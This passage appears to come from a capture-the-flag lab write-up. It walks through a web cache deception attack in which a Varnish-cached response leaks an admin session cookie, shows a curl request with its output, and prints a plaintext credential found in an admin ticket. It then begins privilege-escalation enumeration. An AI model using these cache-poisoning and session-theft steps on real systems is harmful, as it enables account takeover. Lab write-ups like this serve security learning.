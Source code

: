 2:  
Wait for admin to go click on that

3:  
Varnish caches the response served to admin

4:  
```
curl -i http://10.10.11.188/static/haaaaaa.zoinks
HTTP/1.1 404 NOT FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sat, 18 Feb 2023 22:14:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 207
Set-Cookie: session=2a714102-574b-40b6-8bdd-422335897bc7; HttpOnly; Path=/
cache-control: public, max-age=240
X-Varnish: 295051 295039
Age: 47
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

We can now use that cookie and access `/admin_tickets`, and there's some credentials exposed in the ticket `diego:dCb#1!x0%gjq`  :  
![admin.png](admin.png)  



## Privesc enum

Looking around, there is a .keras/keras.json thing that seems to be config files in relations to tensorflow.  

There's also a  user.py script in diego's homefolder, with hardcoded credentials for a local mysql instance, that's the same credentials we already have.  
It reads the forgot links in the database, so this is what we caught when we store the reset link.  
Then opens the escalated links from the database, presumably the ones uploaded by the users of the app.  
It logs in to the web app, with hardcoded creds again for admin, recovers the cookie, from the response, then with that cookie it iterates through each of the links in the db sends 3 gets with the cookie, and removes the entrie from the db.
That's the cookie that got cached and that we managed to steal to get there.
So we now have 2 sets for creds, 3 if we go look in the database:  
  